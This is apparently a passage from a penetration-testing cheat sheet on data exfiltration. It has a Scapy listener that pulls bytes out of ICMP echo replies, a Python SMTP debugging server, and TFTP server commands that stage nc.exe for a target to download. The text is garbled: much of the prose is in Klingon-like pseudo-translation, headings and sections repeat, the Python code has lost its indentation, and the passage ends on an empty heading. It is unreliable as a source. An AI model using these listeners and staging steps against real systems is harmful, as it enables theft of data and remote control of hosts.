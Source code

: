 ```python
from scapy.all import *
#This is ippsec receiver created in the HTB machine Mischief
def process_packet(pkt):
if pkt.haslayer(ICMP):
if pkt[ICMP].type == 0:
data = pkt[ICMP].load[-4:] #Read the 4bytes interesting
print(f"{data.decode('utf-8')}", flush=True, end="")

sniff(iface="tun0", prn=process_packet)
```
## **SMTP**

**SMTP**

vaj vItlhutlh data SMTP server, vaj vItlhutlh SMTP python vItlhutlh data vItlhutlh:
```bash
sudo python -m smtpd -n -c DebuggingServer :25
```
## TFTP

By default in XP and 2003 (in others it needs to be explicitly added during installation)

In Kali, **start TFTP server**:

## TFTP

XP 'ej 2003 (vaj others vItlhutlh) DaH jImejDaq 'e' vItlhutlh

Kali, **TFTP server Qap**:

```bash
service tftpd-hpa start
```

## TFTP

XP 'ej 2003 (vaj others vItlhutlh) DaH jImejDaq 'e' vItlhutlh

Kali, **TFTP server Qap**:

```bash
service tftpd-hpa start
```
```bash
#I didn't get this options working and I prefer the python option
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /path/tp/nc.exe /tftp
```
**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**
